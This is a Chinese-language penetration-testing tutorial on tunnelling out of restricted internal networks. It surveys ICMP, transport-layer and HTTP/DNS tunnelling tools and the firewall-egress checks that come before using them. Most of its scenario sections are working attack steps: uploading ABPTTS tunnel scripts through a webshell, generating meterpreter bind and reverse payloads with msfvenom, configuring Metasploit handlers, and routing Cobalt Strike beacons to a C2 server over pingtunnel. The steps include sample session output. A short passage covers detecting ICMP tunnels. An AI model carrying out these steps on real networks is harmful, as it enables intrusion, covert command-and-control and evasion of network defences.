

# 内网穿透-隧道

## 1. 内网穿透概述

### 1.1 概述

> 参考链接：https://www.geekby.site/2020/08/%E5%86%85%E7%BD%91%E9%9A%A7%E9%81%93%E7%A9%BF%E9%80%8F/

内网穿透：利用各种隧道技术，寻找防火墙允许的协议，混杂在正常流量中穿透，绕过网络防火墙的封锁，实现访问被封锁的目标网络。

隧道技术：一种通过使用互联网络的基础设施在网络之间传递数据的方式，包括数据封装、传输和解包在内的全过程，使用隧道传递的数据(或负载)可以是不同协议的数据帧或包。

* 封装：隧道协议将这些其他协议的数据帧或包重新封装在新的包头中发送。新的包头提供了路由信息，从而使封装的负载数据能够通过互联网络传递
* 传输：被封装的数据包在隧道的两个端点之间通过公共互联网络进行路由。被封装的数据包在公共互联网络上传递时所经过的逻辑路径称为隧道
* 解包：一旦到达网络终点，数据将被解包并转发到最终目的地

隧道协议的主要作用包括：**规避防火墙**、**绕过出网协议的限制**、**加密网络流量**。

常见的隧道列举如下：

- 应用层：SSH、HTTP、HTTPS、DNS。
- 传输层：TCP、UDP、常规端口转发。
- 网络层：IPv6、ICMP、GRE。

> 关于木马通信使用的协议演变历史可参考：https://cloud.tencent.com/developer/article/1832949?from=article.detail.1419096

### 1.2 内网主机出网方式

#### (1) ICMP协议出网

网络防火墙允许ICMP协议出网，即能ping通外网主机。判断是否允许ICMP协议出网的方式

```
ping ip/domain
tracert ip/domain
```

若只允许ICMP协议出网，可以通过ICMP隧道来解决，也可以解决IPS对HTTP等流量类型检测比较严格问题

#### (2) 传输层特定端口出网

网络防火墙允许特定的TCP或者UDP端口出网，比如连接外网的22、53、80、443、3389等常见应用的默认监听端口。

判断方式：

```
telnet ip port   #TCP
nc -zv ip port   #TCP
nc -zuv ip port  #UDP
curl/wget certutil等判断http出网的话、TCP就能出网
```

在一个不能出网的网络环境里面，将所有的TCP和UDP端口都探测一遍，通常都能发现有一两个常见的端口能出网。这通常是由于网络管理员的错误配置和偷懒行为导致：比如网络管理员配置允许Web服务器访问另一主机的mysql数据库的3306端口，网络管理员配置时偷懒，可能会直接放行Web服务器到任意IP的3306端口。

这种情况就其实就属于能出网了，不需要网络隧道，只需要攻击者本地监听防火墙允许出网的端口，让目标主机将shell反弹到该端口即可。

#### (3) 特定的应用层协议出网

（比如HTTP、SSH、DNS等应用层协议）

网络防火墙能识别应用层的协议，放行允许出网的协议，比如HTTP、SSH、DNS、RDP等应用层协议

判断方式-HTTP/HTTPS：(下面的URL中的http均可替换成https)

```
linux:
curl http://ip or domain
wget http://ip or domain

Windows: 
start http://www.baidu.com
explorer http://www.baidu.com
certutil.exe -urlcache -split -f http://ip:port/xxx
bitsadmin /transfer 任务名 http://ip:port/xxx 绝对路径\文件名
```

判断DNS出网

```
linux：
dig @8.8.8.8 www.baidu.com
nslookup www.baidu.com 8.8.8.8

windows：
nslookup www.baidu.com 8.8.8.8
```

判断SSH出网

```
netstat -ntlp |grep ssh
ssh -p 22 user@ip   #试一下就知道了
```


### 1.3 端口映射和端口转发

#### (1) 端口映射

端口映射的使用，以下图为例，这是一个在渗透测试中，比较常见的场景：

一个hacker通过扫描暴露到公网中的主机A ，主机A开放了一些敏感端口，而且是弱口令，导致主机A被hacker完全控制。
接着hacker就想往公司内网中渗透，通过在主机A监控流量或者扫描的方式，发现了主机B，但是主机B只能由主机A进行访问，开放了80端口，而且没有公网IP。
如果hacker想直接访问主机B的 80端口，对上面的Web服务进行继续渗透，这就需要进行端口映射，让hacker可以远程连接到80端口。

从上图场景中看，端口映射是将内网主机B的80端口映射到了具有公网IP的主机A上，本质上是将一个本来无法访问的端口映射到可以访问的IP上了

#### (2) 端口转发

端口转发又是另外一个场景，在渗透测试中，也很常见。如下图所示：

hacker位于主机A，主机A可能是个人电脑，也可能是hacker控制的主机。
hacker通过发送恶意邮件的方式给主机B，主机B的用户点开邮件，运行恶意木马导致主机B被感染，就成了我们俗称的“肉鸡”。虽然已经有木马运行在主机B中，但是由于主机B不在公网中，hacker无法访问到主机B。
主机B运行着ssh服务，开放着22端口，hacker如果想在主机A上直接连接主机B的22端口，执行shell命令，这就需要端口转发。


这就需要一台主机C，一个公网的VPS（去阿里云或者腾讯云买）

木马的服务端运行在主机C，同时监听两个端口 port1 与port2
木马的客户端运行在主机B，分别主动连接主机B的22端口和主机C的port2
hacker只需要主动连接主机C的port1，这样就打通了到主机B 22端口的线路

## 2. 隧道工具

### 2.1 网络层隧道工具

> ICMP协议出网

#### (1) 使用场景及原理

**使用场景**

1）某主机只允许ICMP协议出网，只需要将ICMP隧道工具客户端放到目标主机上并执行

2）防火墙不限制ICMP协议或检测能力较弱

3）目标主机配置了微隔离(不禁ping，不出网，只有web服务的固定端口可访问)，只有一个webshell，想要上线其他C2工具

4）用作权限维持，将攻击者的控制流量隐藏在ICMP流量中

**原理**

关于ICMP请求，Windows和Linux是不同的：

* Windows系统默认传输32 bytes的数据，内容是固定的`abcdefghijklmnopqrstuvwabcdefghi`，ping包的大小是可以改变的，但是内容依旧不变，且请求和响应内容相同

* Linux系统默认传输48 bytes的数据，头信息比较复杂，但是末尾内容是固定`!”#$%&’()+,-./01234567`

下图报文142和143为Windows系统的Request和Reply包。


下图报文7和10为Linux系统的Request和Reply包。




**ICMP隐蔽隧道的原理**：替换Data部分，利用客户端程序进行接收并处理服务端发送的畸形的ICMP协议（主要是Request和Reply包）

**检测方式**：

* 检测同一来源 ICMP 数据包的数量。一个正常的 ping 每秒最多只会发送两个数据包，而使用 ICMP隧道在同一时间会产生上千个 ICMP 数据包。
* 寻找那些响应数据包中 payload 跟请求数据包不一致的 ICMP 数据包。
* 注意那些 ICMP 数据包中 payload 大于 64 比特的数据包（当然有的工具可以配置限制所有数据包的payload为64比特，这样会使得更难以被检测到）。
* 检查ICMP数据包的协议标签，例如icmptunnel工具会在所有的payload前面增加`TUNL`标记以用于识别隧道，这就是特征。

#### (2) ICMP隧道工具

* **ptunnel**：[ptunnel | Kali Linux Tools](https://www.kali.org/tools/ptunnel/)

kali自带，具体使用及其流量分析**参考文档**：[ICMP隧道-ptunnel](https://echo0d.github.io/DailyNotes/AD/Tools/Tunnel.html#_1-1-ptunnel)

* **pingtunnel**：https://github.com/esrrhs/pingtunnel

TCP、UDP、socks5 over ICMP，速度快，连接稳定，跨平台，client模式不需要管理员权限即可正常使用，推荐使用。可参考文档[ICMP隧道-pingtunnel](https://echo0d.github.io/DailyNotes/AD/Tools/Tunnel.html#_1-2-pingtunnel)

* icmpsh：https://github.com/bdamele/icmpsh

能通过ICMP协议反弹cmd，功能单一，反弹回来的cmd极不稳定，不推荐使用。可参考：https://www.freebuf.com/news/210450.html

* icmptunnel：https://github.com/DhavalKapil/icmptunnel

创建虚拟网卡通过ICMP协议传输网卡流量，基于ICMP隧道的vpn，需要root权限，动静极大，不推荐使用

### 2.1 传输层隧道工具

（1）netcat
官网：https://eternallybored.org/misc/netcat/

网络工具中的瑞士军刀，不多介绍，linux系统一般自带

（2）powercat
github：https://github.com/besimorhino/powercat

powershell版的netcat

（3）socat
github：https://github.com/erluko/socat

具有记录转发流的功能，方便查看转发内容，需要安装

（4）netsh
官网：https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts

windows系统自带的网络配置工具

（5）lcx
github：https://github.com/windworst/LCX

基于socket套接字实现的端口转发工具，从linux下的htran移植给Windows的

```
//内网机器10.0.0.1的3389端口，转发到公网9000端口
lcx.exe -slave 192.168.1.161 9000 10.0.0.1 3389 

//公网机器192.168.1.1，将本机端口9000上监听的所有数据转发到本机5555上
lcx.exe -listen 9000 5555
```

（6）NATBypass
github：https://github.com/cw1997/NATBypass

一款lcx在golang下的实现,更好的跨平台，更完善的文档

（7）iox
github：https://github.com/EddieIvan01/iox

端口转发 & 内网代理工具，功能类似于lcx/ew，简化了命令行参数，支持UDP流量转发，更好的跨平台

缺点：不支持监听指定IP，默认监听0.0.0.0:port，会增大暴露风险

（8）frp
github：https://github.com/fatedier/frp

用Go写的，支持TCP和UDP，以及HTTP和HTTPS协议，同时也支持P2P，仍在持续更新

### 2.3 应用层隧道工具

由于应用层协议极多，对应的隧道工具也很多，我们常用来做隧道的协议一般是DNS、HTTP、SSH、SOCKS等

（1）dnscat2
github：https://github.com/iagox86/dnscat2

IP over DNS通过 DNS 协议创建加密的命令和控制 (C&C) 通道，看起来厉害极了

可参考：

https://cloud.tencent.com/developer/article/1474644?from=article.detail.1552172
https://cloud.tencent.com/developer/article/1419096
（2）dnscat2-powershell
github：https://github.com/lukebaggett/dnscat2-powershell

dnscat2的powershell客户端

（3）dns2tcp 使用文档
github：https://github.com/alex-sector/dns2tcp

TCP over DNS，即通过DNS隧道转发TCP连接，没有加密。采用直连，但速度不是特别乐观，优势在于kali直接集成了这个工具，部分linux发行版也都可以直接通过包工具下载，相对方便

可参考： https://cloud.tencent.com/developer/article/1552172?from=article.detail.1419096

（4）iodine
github：https://github.com/yarrick/iodine

IPv4 over DNS，即通过DNS隧道转发IPv4数据包，在编码，请求类型上提供了更丰富的选择，而且在速度方面更快

可参考： https://cloud.tencent.com/developer/article/1552172?from=article.detail.1419096

（5）reGeorg
github：https://github.com/sensepost/reGeorg

SOCKS over HTTP，即通过HTTP隧道转发SOCKS，用Python写的，基于Python2.7和urllib3，上传一个Tunnel脚本，然后远程连接转发端口即可建立socket代理隧道

对于aspx的网站假如总是报错，可以尝试ashx脚本
PHP程序确认php.ini中socket模块正常开启并且可用，reGeorge也提供了nosocket脚本
linux下利用proxychains，Windows下利用proxifier实现任意应用通过代理
假如绑定某些端口会遇到socket无法建立连接时，尝试着利用80、53等穿透性强的端口
（6）Neo-reGeorg
github：https://github.com/L-codes/Neo-reGeorg

重构版reGeorg，提高稳定性和可用性，避免特征检测，更新活跃

根据作者说法：

传输内容经过变形 base64 加密，伪装成 base64 编码
直接请求响应可定制化 (如伪装的404页面)
HTTP Headers 的指令随机生成，避免特征检测
HTTP Headers 可定制化
自定义 HTTP 响应码
多 URL 随机请求
服务端 DNS 解析
兼容 python2 / python3
服务端环境的高兼容性
(仅 php) 参考 pivotnacci 实现单 Session 创建多 TCP 连接，应对部分负载均衡场景
aspx/ashx/jsp/jspx 已不再依赖 Session，可在无 Cookie 等恶劣环境正常运行
支持内网转发，应对负载均衡环境
（7）reDuh
github：https://github.com/sensepost/reDuh

TCP over HTTP,即通过HTTP隧道转发TCP连接，隧道不稳定

（8）Tunna
github：https://github.com/SECFORCE/Tunna

TCP、SOCKS over HTTP，即通过HTTP隧道转发TCP连接和SOCKS，隧道不稳定

（9）ABPTTS
github：https://github.com/nccgroup/ABPTTS

TCP over HTTP，即通过HTTP隧道转发TCP连接

数据加密，可自定义HTTP数据
对抗特征检测十分优秀
创建的隧道十分稳定
比较遗憾的是支持的web脚本类型只有aspx和jsp
（10）EarthWorm（EW）
官网：http://rootkiter.com/EarthWorm/
github：https://github.com/rootkiter/Binary-files
下载：https://github.com/rootkiter/Binary-files/tree/bd3223082afbf88421fe391eb55b9eb2da7d533e

十分方便的多级SOCKS代理，已经永久停止更新，五种管道：

ssocksd : 正向代理
rssocks : 反向代理
lcx_slave： 该管道一侧通过反弹方式连接代理请求，另一侧连接代理提供主机
lcx_tran : 该管道通过监听本地端口代理请求，并转发给代理提供主机
lcx_listen : 该管道通过监听本地端口接收数据，并将其转发给目标网络回连的代理提供主机
（11）Termite
官网：http://rootkiter.com/Termite/
github：https://github.com/rootkiter/Binary-files/tree/bd3223082afbf88421fe391eb55b9eb2da7d533e

EarthWorm的升级版，已经永久停止更新

（12）Venom
github：https://github.com/Dliv3/Venom/

Venom是一款基于ssh隧道，为渗透测试人员设计的使用Go开发的多级代理工具

据作者说：

可视化网络拓扑
多级socks5代理
多级端口转发
端口复用 (apache/mysql/…)
ssh隧道
交互式shell
文件的上传和下载
节点间通信加密
支持多种平台(Linux/Windows/MacOS)和多种架构(x86/x64/arm/mips)
（13）ssocks
github：https://github.com/54Pany/sSocks

正向和反向的socks工具，可执行文件的大小很小，支持socks5验证，支持IPV6和UDP

（14）s5.go
github：https://github.com/ring04h/s5.go

go语言编写的socks服务工具，良好的跨平台特性

（15）ssh
ssh本身可以用来做隧道，如果没被限制的话

本地转发：

```
ssh -CNfg -L 127.0.0.1:7777:114.114.114.114:9999 root@192.168.1.1
#ssh客户端监听127.0.0.1:7777, 将收到的tcp数据包通过连接到192.168.1.1的ssh隧道转发到ssh服务端，再由服务端转发到114.114.114.114:9999
```

远程转发：

```
ssh -CNfg -R 127.0.0.1:7777:114.114.114.114:9999 root@192.168.1.1
#ssh服务端监听127.0.0.1:7777, 将收到的tcp数据包通过连接到192.168.1.1的ssh隧道转发到ssh客户端，再由ssh客户端转发到114.114.114.114:9999
```

动态转发：

```
ssh -CNfg -D 127.0.0.1:7777 root@192.168.1.1
#ssh客户端监听127.0.0.1:7777开启socks服务，将收到的socks数据包通过连接到192.168.1.1的ssh隧道转发到ssh服务端，再由ssh服务端转发到目标地址
```

构建ssh隧道的常用参数:

```
-C 压缩传输，提高传输速度
-f 后台执行数据传输
-N 建立静默连接
-g 允许远程主机连接本地用于转发的端口
-L 本地端口转发
-R 远程端口转发
-D 动态转发，即SOCKS代理
-p 指定ssh连接端口
```

## 三、内网穿透场景

### 1、上线零出网的内网主机

#### （1）背景

获取了webshell的主机位于内网

ICMP等网络层协议不能出网
TCP和UDP等传输层协议不能出网
DNS、HTTP等应用层协议也不能出网
唯一的数据通道是反向代理入网的web应用

#### （2）方案

利用反向代理入网的web应用所在的HTTP连接，构建正向的TCP over HTTP隧道。通过这条隧道，我们可以向内网主机发起TCP连接。生成bind类型的payload，通过webshell上传执行就会监听一个端口，我们的远控平台通过构建的TCP over HTTP隧道，去连接监听的端口即可上线

能构建TCP over HTTP的隧道的工具有ABPTTS、Tunna、reDuh等，由于Tunna、reDuh构建的tcp连接不稳定，这里选用ABPTTS

#### （3）过程

##### 上线metasploit

* 通过正向的HTTP隧道构建TCP连接

```
# 配置abptts运行环境
# 注意windows安装pycrypto库需要先安装依赖http://aka.ms/vcpython27

pip install httplib2
pip install pycrypto

# 生成server端脚本

python abpttsfactory.py -o server

# 上传server端脚本到web服务器，客户端运行以下命令

python abpttsclient.py -c server/config.txt -u "http://192.168.168.10/abptts.aspx" -f 127.0.0.1:7777/127.0.0.1:8888

# abptts客户端监听127.0.0.1:7777，通过http://192.168.168.10/abptts.aspx这个http隧道，将tcp连接127.0.0.1:7777转发到web服务器网络下的127.0.0.1:8888
```

* 生成bind类型的payload，通过webshell上传执行

```
# 这里的rhost和lport是转发的目的IP和端口

msfvenom -p windows/meterpreter/bind_tcp rhost=127.0.0.1 lport=8888 -f exe -o meterpreter.exe
```

* 启动msf监听，等待meterpreter执行上线

```
#这里的rhost和lport是abptts客户端监听的IP和端口，msf所在主机必须能访问到这个IP和端口，这里msf和abptts在同一个主机上

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 exploit(multi/handler) > set lport 7777
lport => 7777
msf5 exploit(multi/handler) > run

[*] Started bind TCP handler against 127.0.0.1:7777
[*] Sending stage (180291 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 127.0.0.1:7777) at 2020-04-27 04:50:25 -0400

meterpreter > getuid
Server username: DESKTOP-0AH7FQ0\admin
```

##### 上线cobaltstrike

由于cobaltstrike的bind类型的监听器仅有beacon TCP和beacon SMB，并且都必须连接到父beacon，无法直接连接cobalstrike服务端，所以我们需要一个父beacon来中转连接。

* 通过正向的http隧道构建tcp连接

```
# 配置abptts运行环境

# 注意windows安装pycrypto库需要先安装依赖http://aka.ms/vcpython27

pip install httplib2
pip install pycrypto

# 生成server端脚本

python abpttsfactory.py -o server

# 上传server端脚本到web服务器，客户端运行以下命令

python abpttsclient.py -c server/config.txt -u "http://192.168.168.121/abptts.aspx" -f 127.0.0.1:7777/127.0.0.1:8888

# abptts客户端监听127.0.0.1:7777，通过http://192.168.168.121/abptts.aspx这个http隧道，将tcp连接127.0.0.1:7777转发到web服务器网络下的127.0.0.1:8888
```

* 创建反向的listener


* 生成父beacon


* 上传父beacon到abptts客户端执行上线


* 创建payload为TCP beacon的listener


* 生成stageless的子beacon


* 将生成的子beacon通过webshell上传执行

```
# 可以通过webshell查看网络监听，确保子beacon执行成功

netstat -ano | findstr 127.0.0.1:8888
```

* 在父beacon中连接ABPTTS的监听IP和端口


* 成功上线不能出网的webshell内网主机


### 2、上线仅ICMP协议出网的内网主机

#### （1）背景

通过某种信道获取了内网主机的shell，但是当前信道不适合做远控的通信信道（比如站库分离的网站，我们通过sql注入获取了数据库服务器的shell，但是数据库服务器只有ICMP协议可以出网）

TCP和UDP等传输层协议不能出网
DNS、HTTP等应用层协议也不能出网
只有ICMP协议可以出网

#### （2）方案

ICMP协议可以出网，可以利用ICMP协议，构建反向的TCP over ICMP隧道或者SOCKS over ICMP隧道上线远控平台。搭建隧道的工具使用pingtunnel，它能通过ICMP隧道转发TCP、UDP、socks5连接

#### （3）过程

##### ICMP隧道转发TCP上线metasploit

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

* ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1
该命令的意思是icmp客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
```

生成反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线

```
msfvenom -p windows/meterpreter/reverse_https lhost=127.0.0.1 lport=9999 -f exe -o meterpreter.exe

# 这里的lhost和lport为icmp客户端监听ip和端口
```

启动msf监听，等待meterpreter执行上线

```
# 这里的lhost和lport为icmp客户端转发到的ip和端口

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf5 exploit(multi/handler) > set lport 7777
lport => 7777
msf5 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:7777

meterpreter > getuid
Server username: DESKTOP-test0\admin
```

##### ICMP隧道转发socks上线metasploit

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```
pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1

# 该命令的意思是icmp隧道客户端监听127.0.0.1:6688启动socks5服务，通过连接到icmpserver_ip的icmp隧道，由icmpserver转发socks5代理请求到目的地址
```

生成支持socks5代理的反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线

```
msfvenom -p windows/meterpreter/reverse_https LHOST=c2_server_ip LPORT=8443 HttpProxyType=SOCKS HttpProxyHost=127.0.0.1 HttpProxyPort=6688 -f exe -o meterpreter.exe
```

启动msf监听，等待meterpreter执行上线

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf5 exploit(multi/handler) > set lport 8443
lport => 8443
msf5 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8443

meterpreter > getuid
Server username: DESKTOP-test0\admin
```

##### ICMP隧道转发TCP上线cobaltstrike

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1

# 该命令的意思是icmp隧道客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
```

* cobaltstrike创建listener
  https host和https port(c2)为ICMP隧道客户端的监听IP和端口
  https port(bind)为转发目的地址的端口


* 生成反向payload的beacon


* 上传生成的beacon到ICMP隧道客户端执行，成功通过反向ICMP隧道上线


##### ICMP隧道转发socks上线cobaltstrike

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```
pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1

# 该命令的意思是icmp隧道客户端监听127.0.0.1:6688启动socks5服务，通过连接到icmpserver_ip的icmp隧道，由icmpserver转发socks5代理请求到目的地址
```

* cobaltstrike创建listener
  这里的代理可以是socks或者HTTP，好像cobaltstrike不支持socks5代理，这里并不能成功上线
  这里也可以使用HTTP代理，不过需要工具将HTTP代理转为socks5代理，比如privoxy


* 选择创建的listener生成beacon上传到目标执行即可上线

### 3、上线仅DNS协议出网的内网主机

#### （1）背景

通过某种信道获取了内网主机的shell，但是做了限制不跟外网通信

TCP和UDP等传输层协议不能出网
ICMP、HTTP等应用层协议也不能出网
只有DNS协议可以出网

#### （2）方案

DNS协议可以出网，只允许端口53的UDP流量，就不能通过TCP搭建隧道，这种情况下我们可以通过UDP搭建DNS隧道，具体实现是通过搭建一个DNS服务器委派的子域，这个子域因为是我们自己搭建的主机，这时候就可以通过这个子域用看起来厉害极了的dnscat2搭建DNS隧道，和网络被限制的主机进行交互

#### （3）过程


结语
内网穿透的本质：通过各种通信信道，无论是正向的还是反向的，实现传输层协议TCP/UDP数据包的转发，应用层协议都是基于传输层的协议实现的。比如ABPTTS + SOCKS服务 = reGeorg

内网渗透中的内网穿透的条件：能通过某种通信信道远程代码执行。如果能通过某种通信信道远程代码执行，一定可以通过这种通信信道实现TCP/UDP 数据包的转发，即TCP/UDP over something隧道。如果没有现成的工具，可能需要我们自己开发。比如，通过sql注入获取了shell，我们也可以利用这条通信信道转发TCP/UDP 数据包，没有现成的工具，需要我们开发工具而已，隧道客户端将TCP/UDP 数据包封装写进数据库，再由隧道服务端从数据库中读出封装的数据包解包，发往对应地址即可

一些有意思的东西：

网络层绕过IDS/IPS的一些探索
Domain Borrowing: 一种基于CDN的新型隐蔽通信方法
参考：

内网渗透之内网穿透
内网渗透之DNS隧道技术
内网渗透之主机出网OR不出网隧道搭建
FRP 内网穿透
内网渗透之通信隧道
基于bro的安全场景研究测试-DNS隧道
